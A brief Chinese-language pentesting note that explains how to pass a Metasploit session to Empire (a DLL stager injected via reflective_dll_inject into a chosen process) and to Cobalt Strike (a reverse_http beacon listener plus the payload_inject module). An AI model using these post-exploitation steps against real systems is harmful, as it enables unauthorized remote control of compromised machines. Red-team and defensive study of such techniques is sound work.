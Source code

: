   ##### 派生Empire
	Empire创建一个Listener
	创建一个stager选择windows/dll
	MSF使用
	>use post/windows/manage/reflective_dll_inject 
	指定session，dll的路径，进程pid
  ##### 派生Cobalt Strike
	cobalt 开启一个监听器windows/beacon_http/reverse_http
	msf 
	>use exploit/windows/manage/payload_inject
	指定IP、端口、payload即可